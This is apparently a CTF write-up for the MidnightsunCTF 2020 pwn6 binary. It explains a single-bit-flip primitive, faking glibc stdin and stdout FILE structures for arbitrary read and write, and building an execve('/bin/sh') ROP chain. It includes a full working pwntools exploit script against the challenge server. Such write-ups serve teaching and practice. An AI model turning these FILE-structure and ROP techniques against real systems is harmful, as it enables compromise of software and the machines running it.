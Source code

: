 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF Quals 2020 - pwn6
tags: 
    - kowu
---
```


A static, no PIE, canary, AMD64 Binary, intended for pwny racing. Solved by faking glibc's stdin/out FILE structures and writing a ROPchain into stack memory.
[Download](/assets/bin/midnight_pwn6)


## Challenge Overview

At it's core, the challenge looked like this in pseudo-decompiled-C. We can swap a single bit at an arbitrary address.
```c
static volatile int loop;
while (loop < 1) {
    unsigned char* addr;
    unsigned int bitidx;
    printf("addr:");
    fscanf(stdin, "%p:%u", &addr, &bitidx);
    if (bitidx > 7)
        break;
    *addr ^= (1 << bitidx);
    loop++;
}
```

## Unlimited Swaps

First, define some helper functions to swap a bit, write a byte and a bytestring to some (previously null) memory. To get an unlimited amount of swaps, we overwrite the sign bit of the loop variable. As it is declared as volatile, it is reloaded on the next compare and loop < 1 holds true.

```python
def swapbitat(addr, bit):
    r.sendlineafter('addr:', '{}:{}'.format(hex(addr), bit))


def writebyte(addr, value):
    for idx in range(8):
        if (1 << idx) & value:
            swapbitat(addr, idx)


def writeto(addr, buf):
    for i in range(len(buf)):
        writebyte(addr + i, ord(buf[i]))

swapbitat(0x6D7333, 7)
```

## Leaking A Stack Pointer

stdin, stdout and stderr in C are pointers to some FILE struct. FILE is a typedef for `_IO_FILE`, which is defined in `struct_FILE.h`. Besides holding a fileno (i.e. stdin = 0, stdout = 1, ...), glibcs implementation does a lot of buffering on files as well (see the `setvbuf` kind of functions). There are slides of Angelboy available, which do descibe the thechiques I used in detail: e.g. <https://gsec.hitb.org/materials/sg2018/WHITEPAPERS/FILE%20Structures%20-%20Another%20Binary%20Exploitation%20Technique%20-%20An-Jie%20Yang.pdf>

tl;dr, by messing with `_IO_write_base`, `_IO_write_ptr` and `_IO_read_end` of `_IO_FILE` we can get arbitrary read. The following C snippet shows this behaviour:
```c
static char leakme[] = {'a', 'b', 'c', 'd'};
puts("test");
stdout->_IO_write_base = leakme;
stdout->_IO_write_ptr = &leakme[4];
stdout->_IO_read_end = stdout->_IO_write_base;
puts("test");
```
Output:
```
test
testabcd
```

However, we can't just overwrite the existing structure bit-by-bit, we would access corrupt pointers as stdin/out is accessed on every iteration of the loop. To solve this problem we swap a single bit inside of the stdout pointer (which is placed insied rw memory), so it points to some unused, zeroed out, space. Before we perform this "atomic stdout structure" swap of course we place a faked structure at this address.

```python
def fakestdout(a, b):
    return struct.pack('<28Q',
                       0x00000000fbad0800,
                       0x00000000006d53e3,
                       a,
                       0x00000000006d53e3,
                       a,
                       b,
                       0x00000000006d53e3,
                       0x00000000006d53e3,
                       0x00000000006d53e4,
                       0, 0, 0, 0, 0,
                       1,
                       0, 0,
                       0x00000000006d7d30,
                       0, 0, 0, 0, 0, 0, 0, 0, 0,
                       0x00000000006d6fe0)

writeto(0x006d7360, fakestdout(0x006d7da8, 0x006d7db0))
swapbitat(0x006d57a1, 5)
r.recvn(4)
stack = struct.unpack('<Q', r.recvn(8))[0]
print('stack at 0x{:x}'.format(stack))
swapbitat(0x006d57a1, 5)
```

We get some stack address leaked in return, and immediately change back stdout to the original struct by swapping the same bit again.

## Constructing A ROPchain

This part is easy, I used ROPgadget's automatic ropchain generation feature `ROPgadget.py --ropchain --binary pwn6`. For some reason it doesn't make use of a `pop rax; ret;` gadget for the syscall id, did it myself so it looks nicer.

## Arbitrary Write

Now we need to write our ropchain onto the stack. To get an arbitrary write we use the same technique we already used for leaking. This time we fake a stdin structure and let the "read buffer" point onto the stack by modifying `_IO_buf_base` and `_IO_buf_end`. As a result any stdlib call reading from stdin will "buffer" input wherever we want to.

To leave the loop, we send "000000:8" to trigger the break and start the ropchain. The many zeros are only placed there so it is a nice 8Bytes size.

## Final Sploit

```python
from pwn import *
from struct import pack

r = remote('pwn6-01.play.midnightsunctf.se', 10006)


def swapbitat(addr, bit):
    r.sendlineafter('addr:', '{}:{}'.format(hex(addr), bit))


def writebyte(addr, value):
    for idx in range(8):
        if (1 << idx) & value:
            swapbitat(addr, idx)


def writeto(addr, buf):
    for i in range(len(buf)):
        writebyte(addr + i, ord(buf[i]))


def fakestdout(a, b):
    return struct.pack('<28Q',
                       0x00000000fbad0800,
                       0x00000000006d53e3,
                       a,
                       0x00000000006d53e3,
                       a,
                       b,
                       0x00000000006d53e3,
                       0x00000000006d53e3,
                       0x00000000006d53e4,
                       0, 0, 0, 0, 0,
                       1,
                       0, 0,
                       0x00000000006d7d30,
                       0, 0, 0, 0, 0, 0, 0, 0, 0,
                       0x00000000006d6fe0)


def fakestdin(a, b):
    return struct.pack('<28Q',
                       0x00000000fbad208b,
                       0x00000000006d5603,
                       0x00000000006d5603,
                       0x00000000006d5603,
                       0x00000000006d5603,
                       0x00000000006d5603,
                       0x00000000006d5603,
                       a,
                       b,
                       0, 0, 0, 0, 0,
                       0,
                       0, 0,
                       0x00000000006d7d40,
                       0, 0, 0, 0, 0, 0, 0, 0, 0,
                       0x00000000006d6fe0)


def rop():
    p = pack('<Q', 0x00449b46) * 0x10  # ret
    p += pack('<Q', 0x0000000000410433)  # pop rsi ; ret
    p += pack('<Q', 0x00000000006d50e0)  # @ .data
    p += pack('<Q', 0x00000000004158a4)  # pop rax ; ret
    p += '/bin//sh'
    p += pack('<Q', 0x0000000000487b51)  # mov qword ptr [rsi], rax ; ret
    p += pack('<Q', 0x0000000000410433)  # pop rsi ; ret
    p += pack('<Q', 0x00000000006d50e8)  # @ .data + 8
    p += pack('<Q', 0x0000000000444e00)  # xor rax, rax ; ret
    p += pack('<Q', 0x0000000000487b51)  # mov qword ptr [rsi], rax ; ret
    p += pack('<Q', 0x00000000004006a6)  # pop rdi ; ret
    p += pack('<Q', 0x00000000006d50e0)  # @ .data
    p += pack('<Q', 0x0000000000410433)  # pop rsi ; ret
    p += pack('<Q', 0x00000000006d50e8)  # @ .data + 8
    p += pack('<Q', 0x0000000000449af5)  # pop rdx ; ret
    p += pack('<Q', 0x00000000006d50e8)  # @ .data + 8
    p += pack('<Q', 0x00000000004158a4)  # pop rax
    p += pack('<Q', 59)
    p += pack('<Q', 0x000000000040130c)  # syscall
    return p


def sploit():
    # unlimited swaps
    swapbitat(0x6D7333, 7)

    # create fake file struct to leak a stack ptr
    writeto(0x006d7360, fakestdout(0x006d7da8, 0x006d7db0))

    # detour & restore stdout to/from fake file struct
    swapbitat(0x006d57a1, 5)
    r.recvn(4)
    stack = struct.unpack('<Q', r.recvn(8))[0]
    print('stack at 0x{:x}'.format(stack))
    swapbitat(0x006d57a1, 5)

    # create fake file struct to smash the stack
    writeto(0x6d7580, fakestdin(stack - 0x138, stack + len(rop())))
    swapbitat(0x006d57a9, 5)
    r.sendlineafter('addr:', '000000:8' + rop())

    r.interactive()


if __name__ == '__main__':
    sploit()
```
